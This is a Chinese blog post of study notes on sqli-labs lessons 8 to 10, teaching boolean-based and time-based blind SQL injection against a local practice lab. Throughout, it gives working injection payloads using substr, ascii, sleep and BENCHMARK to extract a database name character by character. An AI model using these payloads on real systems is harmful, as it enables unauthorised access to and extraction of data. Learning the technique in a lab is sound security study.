 ```yaml
---
title: sqli labs lesson 8~10 学习
date: 2016-08-26 14:24:46
tags:
- 渗透测试
- SQL 注入
categories: SQL 注入
---
```

很多时候，Web服务器关闭了错误回显，攻击者为了应对这种情况，研究出了“盲注”（Blind Injection）的技巧。
<!-- more -->
# 1 盲注
__盲注__ 就是在服务器没有错误回显的时完成的注入攻击。服务器没有错误回显，对于攻击者来说缺少了非常重要的“调试信息”，所以攻击者必要找到一个方法来验证注入的SQL语句是否得到执行。
最常见的盲注验证方法是，构造简单的条件语句，根据返回页面是否发生变化，来判断SQL语句是否执行。
比如，一个网站的 URL：
`http://localhost/sqli-labs-master/Less-8/?id=1'%23`
执行的SQL语句
`select * from tables where id = '1'%23' limit 0,1`
![](http://ww1.sinaimg.cn/large/005CA6ZCgw1f775iarqpdj30c803cwek.jpg)

## 1.1 测试 SQL 漏洞
如果构造如下条件语句：
`http://localhost/sqli-labs-master/Less-8/?id=1' and 1=0%23`
实际执行的SQL语句：
`select * from tables where id = '1' and 1=0%23' limit 0,1`
因为 "and 1=0" 为false，所以这条SQL语句的 "and" 条件永远无法成立。对Web应用来说，也不会将结果返回给用户，攻击者看到的页面结果将为空或者是一个出错的页面。
![](http://ww2.sinaimg.cn/large/005CA6ZCgw1f775iypxzdj30c803ca9z.jpg)

## 1.2 确认 SQL 漏洞
为了进一步确认注入是否存在，必须再次验证这个过程。因为一些处理逻辑或安全功能，在攻击者构造异常请求时，也可能会导致页面返回不正常。攻击者继续构造如下请求：
`http://localhost/sqli-labs-master/Less-8/?id=1' and 1=1%23`
当攻击者构造条件 "and 1=1" 时，如果页面正常返回了，则说明 SQL 语句的 "and" 成功执行，那么久可以判断 "id" 参数存在 SQL 注入漏洞。
![](http://ww1.sinaimg.cn/large/005CA6ZCgw1f775jqhx1kj30c803c3ym.jpg)

<font color="red">盲注工作原理：虽然服务器关闭了错误回显，但攻击者通过简单的条件判断，在对比页面返回结果的差异，就可以判断出 SQL 注入漏洞是否存在</font>

# 2 lesson 8 盲注-基于bool值
## 2.1 基础知识
### 2.1.1 substr
SQL 中的 substring 函数是用来抓出一个栏位资料中的其中一部分。这个函数的名称在不同的资料库中不完全一样。
- MySQL: SUBSTR(), SUBSTRING()
- Oracle: SUBSTR()
- SQL Server: SUBSTRING()

最常用到的方式如下 (在这里我们用 SUBSTR() 为例)：

原型 | 说明
-- | --
SUBSTR(str, pos) | 从 str 中，选出所有从第 pos 位置开始的字元。请注意，这个语法不适用于 SQL Server 上。
SUBSTR(str, pos, len) | 从 str 中的第 pos 位置开始，选出接下去的 len 个字元。

![](http://ww4.sinaimg.cn/large/005CA6ZCgw1f775xbbk66j30c803jaao.jpg)

`SELECT substr(email_id,3) FROM `emails` WHERE id=1`
![](http://ww1.sinaimg.cn/large/005CA6ZCgw1f775zhclgtj30c8067dg1.jpg)

`SELECT substr(email_id,0,3) FROM `emails` WHERE id=1`
![](http://ww1.sinaimg.cn/large/005CA6ZCgw1f7760qfdspj30c806oaaa.jpg)

### 2.1.1 assci
ascii()函数将字符转换成其对应的ascii码，而char()函数将数字转换成对应的acscii码字符。

## 2.2 基于bool型盲注
本篇第一小节可知，lesson 8 是单引号闭合的。

sql语句 | 说明
-- | --
select database() | 当前数据库
select substr(database(),1,1) | 当前数据库名首字母
select ascii(substr(database(),1,1)) | 当前数据库名首字母 ascii 码值

参数 | 说明
-- | --
?id=1'%23 | You are in.... 页面显示正确
?id=1' and 1=0%23 | 页面显示出错
?id=1' and 1=1%23 | You are in.... 页面显示正确
?id=1' and (select ascii(substr(database(),1,1)))=97%23 | You are in.... 正确，说明首字母不为 a
?id=1' and (select ascii(substr(database(),1,1)))=115%23 | You are in.... 正确，说明首字母为 s

依照相同的方法，猜解除所有数据库信息。

# 3 lesson 9 盲注-基于时间-单引号
lesson 9 无论输入的参数是否合法，页面都没有任何差异。
在盲注（blind SQL injection）时，如果不同SQL injection 指令的结果，无法由 HTTP Response 本身得知，则可用时间差的方式判断。
<font color="red">设计一个很耗时的 SQL 指令，如果 SQL injection 成功，那么这个SQL injection 指令的执行结果，会影响到 Web server 响应 HTTP response 的速度，由此判断 SQL injection 指令执行的结果。</font>
## 3.1 sleep() 和 BENCHMARK()
- sleep(N)函数，强制让语句停留N秒钟
- BENCHMARK(count,expr)函数，重复执行表达式expr count次，使得结果返回的时间比平时要长

参数 | 说明
-- | --
?id=1 and if(1,sleep(60),null)%23 | 页面无延迟
?id=1' and if(1,sleep(60),null)%23 | 页面加载一段延迟后，正常显示
?id=1" and if(1,sleep(60),null)%23 | 页面无延迟

说明参数时用单引号 ' 闭合的。
也可以使用 BENCHMARK(50000000,ENCODE('hello','goodbye')) 替换sleep(60) 

## 3.2 基于时间型盲注
参数 | 说明
-- | --
select ascii(substr(database(),1,1)) | 数据库名首字母ascii码值
?id=1' and if((select ascii(substr(database(),1,1)))=97,sleep(60),null)%23 | 页面无延迟，说明首字母不为 a
?id=1' and if((select ascii(substr(database(),1,1)))=115,sleep(60),null)%23 | 页面延迟一段时间后加载，说明首字母为 s

依照相同的方法，猜解除所有数据库信息。

# 4 lesson 10 盲注-基于时间-双引号
参数用双引号闭合，其他步骤同上。

# 5 参考文献
[sqli-labs series part 8 (Blind injections - Boolean based)](https://www.youtube.com/watch?v=u7Z7AIR6cMI&index=16&list=PLkiAz1NPnw8qEgzS7cgVMKavvOAdogsro)
[sqli-labs series part 9 (Blind injections - Time based)](https://www.youtube.com/watch?v=gzU1YBu_838&index=15&list=PLkiAz1NPnw8qEgzS7cgVMKavvOAdogsro)

